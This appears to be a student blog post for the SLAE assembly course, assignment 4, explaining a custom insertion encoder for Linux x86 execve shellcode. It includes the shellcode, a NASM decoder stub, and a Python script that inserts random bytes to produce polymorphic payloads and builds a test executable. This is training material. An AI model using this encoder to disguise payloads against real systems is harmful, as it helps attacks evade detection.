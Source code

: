 # Assignment #4: Insertion Encoder

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

### Problem
- Create a custom encoding scheme like the “Insertion Encoder” we showed you
- PoC with using execve-stack as the shellcode to encode with your schema and execute

### Solution

As per the requirements of this assignment, the first thing component that we need is an encoding scheme. Then, we would need to take an execve shellcode that works by using the stack, and encode it using our scheme. Finally, a decoder stub in NASM is required to decode and execute our encoded shellcode in memory. 

The scheme used for this assignment is based on the *insertion encoder* showed in the course. The scheme is complemented with insertions of randomly generated bytes and an additional control byte that specifies the length of our original shellcode. This technique allows generating polymorphic versions every time an encoded shellcode is created, as well as permits substitution of the execve shellcode by any other sequence of opcodes without having to adjust the length variable manually.

The scheme in itself is rather simple:

```
byte[0]     --> length of original shellcode
byte[odd]	--> random
byte[even]	--> original shellcode
```

The first byte of our encoded shellcode is the length of our original shellcode. Of course, this means that the maximum length we could have is 255, which is more than sufficient for any shellcoding situation. Following it, all odd bytes will contain randomly generated bytes and all even bytes will be the original shellcode.

The following execve-stack shellcode was used for this assignment:

```nasm
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  682F2F7368        push dword 0x68732f2f
00000008  682F62696E        push dword 0x6e69622f
0000000D  8D1C24            lea ebx,[esp]
00000010  50                push eax
00000011  8D1424            lea edx,[esp]
00000014  53                push ebx
00000015  8D0C24            lea ecx,[esp]
00000018  B00B              mov al,0xb
0000001A  CD80              int 0x80
```


Based on the encoding scheme proposed for this assignment, the following NASM decoder stub was written:

```nasm
; insertion decoder
;
; expected format:
;		byte[0] 	--> length of shellcode
;		byte[odd]	--> random
;		byte[even]	--> shellcode

global _start
section .text
_start:

	jmp short stage

decoder:
	pop esi
	mov dl, byte [esi] 			; byte[0] 	--> length of shellcode
	xor ecx, ecx 				; counter = 0

decode:
	mov bl, byte [esi+ecx+2]	; next shellcode byte
	mov byte [esi], bl			; move shellcode to current position
	inc esi						; next position
	inc ecx 					; counter++
	cmp cl, dl 					; at the end of shellcode?
	jnz short decode 			; 	if not, keep decoding
	jmp short shellcode			; 	else, execute decoded shellcode


stage:
	call decoder
	shellcode: db 0x1c,0x42,0x31,0xf6,0xc0,0xd0,0x50,0xe0,0x68,0xb9,0x2f,0xb2,0x2f,0x7a,0x73,0xfb,0x68,0xe6,0x68,0x8c,0x2f,0x41,0x62,0xb3,0x69,0xcc,0x6e,0x35,0x8d,0x09,0x1c,0x2a,0x24,0x8b,0x50,0x6a,0x8d,0xb4,0x14,0x14,0x24,0xdc,0x53,0xe8,0x8d,0x26,0x0c,0x0b,0x24,0x97,0xb0,0xc8,0x0b,0x59,0xcd,0xcd,0x80
```

Finally, everything was combined into a Python script that takes the execve shellcode, encodes it according to the scheme, and generates an executable file by prepending the decoder stub.

## encoder.py

```python
#!/usr/bin/python


import struct
import os
import sys

if len(sys.argv) < 2:
	sys.exit("Usage: encode.py [output.elf]")

decoder = (
	"\xeb\x13\x5e\x8a\x16\x31\xc9\x8a\x5c\x0e\x02\x88\x1e"
	"\x46\x41\x38\xd1\x75\xf4\xeb\x05\xe8\xe8\xff\xff\xff"
)

shellcode = (
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x8d"
	"\x1c\x24\x50\x8d\x14\x24\x53\x8d\x0c\x24\xb0\x0b\xcd\x80"
)

if len(shellcode) > 0xff: sys.exit("Shellcode is too long.")


##### Encode using random byte insertion
#
#		byte[0]		--> length of shellcode
#		byte[odd]	--> junk
#		byte[even]	--> shellcode


junk = os.urandom(len(shellcode))

encoded = "\\x%02x" % len(shellcode)
encoded2 = "0x%02x," % len(shellcode)

for i in range(0, len(shellcode)):
	encoded += "\\x%02x\\x%02x" % (bytearray(junk)[i], bytearray(shellcode)[i])
	encoded2 += "0x%02x,0x%02x," % (bytearray(junk)[i], bytearray(shellcode)[i])



##### Generate an executable

skeleton = '''
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
	"__DECODER__"
	"__SHELLCODE__";
void main()
{
	printf("Shellcode Length: %d\\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
'''

stub = ""
for d in bytearray(decoder):
	stub += "\\x%02x" % d

skeleton = skeleton.replace("__DECODER__", stub)
skeleton = skeleton.replace("__SHELLCODE__", encoded)

with open("a.c", "w") as f:
	f.write(skeleton)

os.system("gcc a.c -fno-stack-protector -z execstack")
os.rename("a.out", sys.argv[1])
os.remove("a.c")





print
print "[*] Original Shellcode Length: %d" % len(shellcode)
print "[*] Encoded Shellcode Length: %d" % (len(shellcode) * 2 + 1)
print "[*] Decoder Stub Length: %d" % len(decoder)
print "[*] Payload Length: %d" % (len(decoder) + (len(shellcode) * 2 + 1))
print
print "[+] Decoder Stub:\n\n%s" % stub
print
print "[+] Encoded Shellcode:\n\n%s\n\n%s" % (encoded, encoded2)
print
print "[+] Executable: %s" % sys.argv[1]
print

```

## Example

A sample run produces the following output:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-4/a4.png "Example")
